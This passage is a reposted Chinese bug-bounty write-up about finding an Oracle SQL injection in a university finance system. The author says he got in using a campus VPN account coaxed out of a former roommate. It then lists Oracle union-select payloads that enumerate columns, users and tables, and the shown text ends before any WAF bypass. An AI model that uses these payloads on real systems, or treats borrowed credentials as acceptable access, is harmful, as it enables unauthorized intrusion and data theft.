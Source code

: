 #  【漏洞挖掘】记一次985证书站Oracle注入绕WAF   
越南王子  神农Sec   2025-02-12 01:00  
  
扫码加圈子  
  
获内部资料  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXLicr9MthUBGib1nvDibDT4r6iaK4cQvn56iako5nUwJ9MGiaXFdhNMurGdFLqbD9Rs3QxGrHTAsWKmc1w/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
#   
  
网络安全领域各种资源，学习文档，以及工具分享、前沿信息分享、POC、EXP分享。  
不定期分享各种好玩的项目及好用的工具，欢迎关注。  
#   
  
原文链接：https://forum.butian.net/share/2996  
  
作者：越南王子  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x1 前言**  
  
  
看到某985证书挺好看的，我也很想拿一个。碰巧高中舍友是这个学校的，在一番“威逼利诱”下，他也是乖乖地交出了自己的校园VPN账号。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x2 发现注入点**  
  
  
1、因为有了VPN账号密码，所以出洞应该不是什么问题。所以我省去了信息收集的步骤，直接登录其教务处、财务处等核心系统测试。最后也是很快地在其财务系统发现了疑似注入点，如下图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXHwy8g4XF20AnNOjAAtRibvxqdC6AvgyBVxA06hOsFa96pibvhXTtpgFaUwRyxrksSzKWzX8vsc3fA/640?wx_fmt=png&from=appmsg "")  
  
2、如上图所示，在“支出金额范围（元）”处输入个英文单引号，再点击左上角的“按条件查询”，回显Oracle数据库报错，报错信息为单引号未正确终止。如下图所示。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXHwy8g4XF20AnNOjAAtRibvcQQxehLxOrsExpiamMMVaeq46LHZlmBn3b3fOVYaltXoAm7ZEcEekGQ/640?wx_fmt=png&from=appmsg "")  
#   
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x3 Oracle注入学习**  
  
****  
**【联合查询注入】**  
```
/?id=1 order by 3 --+ 判断列数
```  
```
/?id=-1 union select null,null,null from dual --+ 获取显位/?id=-1 union select 1,'2','3' from dual --+ 获取显位
```  
```
/?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+  获取用户名（相当于MYSQL的库名）
```  
```
/?id=-1' union select NULL,(select table_name from user_tables where rownum=1 and owner='XXX'),NULL from dual--+ 获取XXX用户下的表名
```  